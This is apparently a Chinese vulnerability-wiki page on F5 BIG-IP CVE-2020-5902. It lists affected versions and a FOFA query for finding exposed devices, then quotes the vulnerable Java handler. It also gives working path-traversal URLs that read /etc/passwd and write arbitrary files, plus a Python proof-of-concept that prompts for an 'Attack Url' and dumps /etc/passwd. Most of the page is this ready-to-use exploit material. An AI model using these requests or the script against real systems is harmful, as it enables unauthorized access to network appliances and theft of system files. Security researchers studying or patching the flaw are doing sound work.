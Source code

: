 # F5 BIG-IP 远程代码执行漏洞 CVE-2020-5902

## 漏洞描述

2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。

未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

## 漏洞影响

> [!NOTE]
>
> F5 BIG-IP 15.x: 15.1.0.4
>
> F5 BIG-IP 14.x: 14.1.2.6
>
> F5 BIG-IP 13.x: 13.1.3.4
>
> F5 BIG-IP 12.x: 12.1.5.2
>
> F5 BIG-IP 11.x: 11.6.5.2

## FOFA

> [!NOTE]
>
> title="BIG-IP&reg ;- Redirect"

## 漏洞复现

在 `tmshCmd` 的 `service`方法处理请求的时候，未对`command` 参数进行处理，直接调用 `WorkspaceUtils.runTmshCommand(cmd, request);` 方法执行命令，限制了执行`delete,create,list,modify`。

```java
if ("POST".equalsIgnoreCase(request.getMethod())) {
            String[] cmdArray = command.split(" ");
            String operation = cmdArray[0];
            String module = cmdArray[2];
            if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
               try {
                  String[] args = new String[]{command};
                  Result result = Syscall.callElevated(Syscall.TMSH, args);
                  output = result.getOutput();
                  error = result.getError();
               } catch (CallException var11) {
                  logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + var11.getMessage());
                  error = var11.getMessage();
               }
            } else {
               error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
}
```

在 `fileRead` 的 `service`方法处理请求的时候，未对 `fileName` 参数进行处理，直接调用 `WorkspaceUtils.readFile(fileName);` 方法，进行文件读取。

![](image/F5-1.png)

在 `fileSave` 的 `service`方法处理请求的时候，未对 `fileName`，`content` 参数进行处理，直接调用 `WorkspaceUtils.saveFile(request);` 方法，进行文件上传。

![](image/F5-2.png)

[详情利用方式 https://github.com/jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)

[详情利用方式 https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md](https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md)

#### 读取文件

**http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd**

![](image/F5-4.png)

#### 写入文件

**http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp**

**POST: fileName=/tmp/PeiQi.txt&content=PceiQi**

读取文件 /tmp/PeiQi

![](image/F5-3.png)

成功写入文件

## 漏洞利用POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Language":"zh-CN,zh;q=0.9",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
        if "output" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/F5-5.png)
